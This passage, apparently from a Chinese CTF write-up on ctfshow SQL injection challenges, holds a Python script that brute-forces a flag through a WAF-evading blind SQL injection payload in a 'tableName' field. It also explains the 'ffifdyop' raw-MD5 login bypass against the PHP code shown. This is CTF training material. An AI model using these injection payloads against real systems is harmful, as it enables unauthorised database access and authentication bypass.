 ```python
Date: 2021-12-09 11:40:27
LastEditors:  KonDream
LastEditTime: 2021-12-09 11:40:28
Description:  
'''
import requests
import string

def hex2true(num):
    ans = 'true'
    if num == 1:
        return ans
    for i in range(num - 1):
        ans += '+true'
    return ans


url = "http://1e17529b-2faf-4057-90e5-078c0b0f2e5d.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},true)regexp(char({})))"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format(hex2true(i), hex2true(ord(j)))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 43;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
```
## web187（md5注入：ffifdyop）
```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";

    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```
题意是用户名只能为admin，密码用md5加密，那么就从密码处考虑注入，有一个特殊的字符串：ffifdyop，md5后，276f722736c95d99e921722cf9ed621c，再转成字符串：'or'6，这样就形成了永真式导致注入
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639022157934-2897caf6-2c3e-4120-94ac-f0ea50cdc2f4.png)
查看返回请求即可得到flag
